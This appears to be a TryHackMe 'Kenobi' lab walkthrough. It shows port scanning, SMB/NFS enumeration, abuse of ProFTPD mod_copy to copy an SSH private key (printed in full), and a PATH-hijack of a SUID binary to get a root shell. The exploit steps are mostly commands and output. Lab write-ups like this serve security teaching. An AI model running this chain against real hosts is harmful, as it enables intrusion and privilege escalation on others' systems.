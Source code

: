 https://tryhackme.com/room/kenobi


ip = `10.10.30.93`

# open ports

21/tcp    open  ftp         ProFTPD 1.3.5
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
111/tcp   open  rpcbind     2-4 (RPC #100000)                                                                                                                
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                      
445/tcp   open  �Y�,�U      Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)                                                                                  
2049/tcp  open  nfs_acl     2-3 (RPC #100227)                                                                                                                
39743/tcp open  nlockmgr    1-4 (RPC #100021)
51463/tcp open  mountd      1-3 (RPC #100005)
52213/tcp open  mountd      1-3 (RPC #100005)
58015/tcp open  mountd      1-3 (RPC #100005)



# findings


## Samda

`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.30.93`
returns all shared drives


`smbclient //10.10.30.93/anonymous`
connects to one - there is log.txt file there

managed to download log.txt using `smbget -r smb://10.10.30.93/anonymous/log.txt`

The key fingerprint is:
SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi





## 111
```
┌──(kali㉿kali)-[~]
└─$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.30.93
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-01 05:59 EST
Nmap scan report for 10.10.30.93
Host is up (0.064s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *
```

Lets copy home/kenobi/.ssh/id_rsa to that mount point using ftp

```
┌──(kali㉿kali)-[~]
└─$ nc 10.10.30.93 21                                                                                                         
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.30.93]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Now lets mount to that /var and see what is there 


```
sudo mkdir /mnt/kenobiNFS
sudo mount 10.10.30.93:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS

┌──(kali㉿kali)-[~]
└─$ cat /mnt/mountKenobi/tmp/id_rsa                                                                                                                      
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4PeD0e0522UEj7xlrLmN68R6iSG3HMK/aTI812CTtzM9gnXs
qpweZL+GJBB59bSG3RTPtirC3M9YNTDsuTvxw9Y/+NuUGJIq5laQZS5e2RaqI1nv
U7fXEQlJrrlWfCy9VDTlgB/KRxKerqc42aU+/BrSyYqImpN6AgoNm/s/753DEPJt
dwsr45KFJOhtaIPA4EoZAq8pKovdSFteeUHikosUQzgqvSCv1RH8ZYBTwslxSorW
y3fXs5GwjitvRnQEVTO/GZomGV8UhjrT3TKbPhiwOy5YA484Lp3ES0uxKJEnKdSt
otHFT4i1hXq6T0CvYoaEpL7zCq7udl7KcZ0zfwIDAQABAoIBAEDl5nc28kviVnCI
ruQnG1P6eEb7HPIFFGbqgTa4u6RL+eCa2E1XgEUcIzxgLG6/R3CbwlgQ+entPssJ
dCDztAkE06uc3JpCAHI2Yq1ttRr3ONm95hbGoBpgDYuEF/j2hx+1qsdNZHMgYfqM
bxAKZaMgsdJGTqYZCUdxUv++eXFMDTTw/h2SCAuPE2Nb1f1537w/UQbB5HwZfVry
tRHknh1hfcjh4ZD5x5Bta/THjjsZo1kb/UuX41TKDFE/6+Eq+G9AvWNC2LJ6My36
YfeRs89A1Pc2XD08LoglPxzR7Hox36VOGD+95STWsBViMlk2lJ5IzU9XVIt3EnCl
bUI7DNECgYEA8ZymxvRV7yvDHHLjw5Vj/puVIQnKtadmE9H9UtfGV8gI/NddE66e
t8uIhiydcxE/u8DZd+mPt1RMU9GeUT5WxZ8MpO0UPVPIRiSBHnyu+0tolZSLqVul
rwT/nMDCJGQNaSOb2kq+Y3DJBHhlOeTsxAi2YEwrK9hPFQ5btlQichMCgYEA7l0c
dd1mwrjZ51lWWXvQzOH0PZH/diqXiTgwD6F1sUYPAc4qZ79blloeIhrVIj+isvtq
mgG2GD0TWueNnddGafwIp3USIxZOcw+e5hHmxy0KHpqstbPZc99IUQ5UBQHZYCvl
SR+ANdNuWpRTD6gWeVqNVni9wXjKhiKM17p3RmUCgYEAp6dwAvZg+wl+5irC6WCs
dmw3WymUQ+DY8D/ybJ3Vv+vKcMhwicvNzvOo1JH433PEqd/0B0VGuIwCOtdl6DI9
u/vVpkvsk3Gjsyh5gFI8iZuWAtWE5Av4OC5bwMXw8ZeLxr0y1JKw8ge9NSDl/Pph
YNY61y+DdXUvywifkzFmhYkCgYB6TeZbh9XBVg3gyhMnaQNzDQFAUlhM7n/Alcb7
TjJQWo06tOlHQIWi+Ox7PV9c6l/2DFDfYr9nYnc67pLYiWwE16AtJEHBJSHtofc7
P7Y1PqPxnhW+SeDqtoepp3tu8kryMLO+OF6Vv73g1jhkUS/u5oqc8ukSi4MHHlU8
H94xjQKBgExhzreYXCjK9FswXhUU9avijJkoAsSbIybRzq1YnX0gSewY/SB2xPjF
S40wzYviRHr/h0TOOzXzX8VMAQx5XnhZ5C/WMhb0cMErK8z+jvDavEpkMUlR+dWf
Py/CLlDCU4e+49XBAPKEmY4DuN+J2Em/tCz7dzfCNS/mpsSEn0jo
-----END RSA PRIVATE KEY-----
```

Now we can ssh to it as kenobi

```
ssh kenobi@10.10.30.93 -i id_rsa_kenobi 
kenobi@kenobi:~$ cat user.txt 
<flag>
```

Lets look for files with SUID bit

```
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu -> what is this?
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

Lets see what can we do with /usr/bin/menu using strings

```
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost -> this is interesting
uname -r
ifconfig
```
the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname) -> this file runs as root

lets try and exploit curl

```

kenobi@kenobi:~$ cd /tmp/
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# whoami
root
# ls
curl  systemd-private-a12ee0a061f142269b8b861423f208ca-systemd-timesyncd.service-5ex1GQ
# cd /root
# ls
root.txt
# cat root.txt  
<flag>


```

DONE!

